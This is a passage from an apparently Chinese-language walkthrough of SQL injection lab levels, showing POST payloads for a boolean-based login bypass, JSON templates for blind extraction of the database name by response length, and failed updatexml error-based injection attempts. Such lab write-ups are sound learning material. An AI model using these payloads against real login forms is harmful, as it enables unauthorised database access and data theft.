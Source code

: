 ```
uname=%22)or 1=1%23&passwd='s'&submit=Submit
```

成功：长度为1504

![image-20220921172704857](https://shihao-icu-1304033786.cos.ap-shanghai.myqcloud.com/shihao.icu/image-20220921172704857.png)

报错：长度为1467

![image-20220921172726914](https://shihao-icu-1304033786.cos.ap-shanghai.myqcloud.com/shihao.icu/image-20220921172726914.png)

修改python代码，获取请求响应内容的长度

![image-20220921173110551](https://shihao-icu-1304033786.cos.ap-shanghai.myqcloud.com/shihao.icu/image-20220921173110551.png)

再把成功的长度写死在代码里

![image-20220921173643772](https://shihao-icu-1304033786.cos.ap-shanghai.myqcloud.com/shihao.icu/image-20220921173643772.png)

因为是POST请求所以需要设计JSON

1. 获取database()的长度，不要有单引号

   ```json
   {
   "uname":"\") or (length(database())=*_*)%23",
   "passwd":"s",
   "submit":"Submit"
   }
   ```

2. 获取database()的名字

   ```json
   {
   "uname":"\")or (substr(database(),1,1)=\"*_*\")%23",
   "passwd":"s",
   "submit":"Submit"
   }
   ```

   ![image-20220921190606664](https://shihao-icu-1304033786.cos.ap-shanghai.myqcloud.com/shihao.icu/image-20220921190606664.png)

## 第十七关

标题是基于update的报错注入，`or updatexml(1,concat(0x7e,database(),0x73),1)`

```
1、uname=aa&passwd=ss'or updatexml(1,concat(0x7e,database(),0x73),1) or'&submit=Submit
失败
2、uname=aa&passwd=ss"or updatexml(1,concat(0x7e,database(),0x73),1) or"&submit=Submit
失败
3、uname=aa&passwd=ss%22or updatexml(1,concat(0x7e,database(),0x73),1) or%22&submit=Submit
失败。。。逻辑不通，看源代码
```
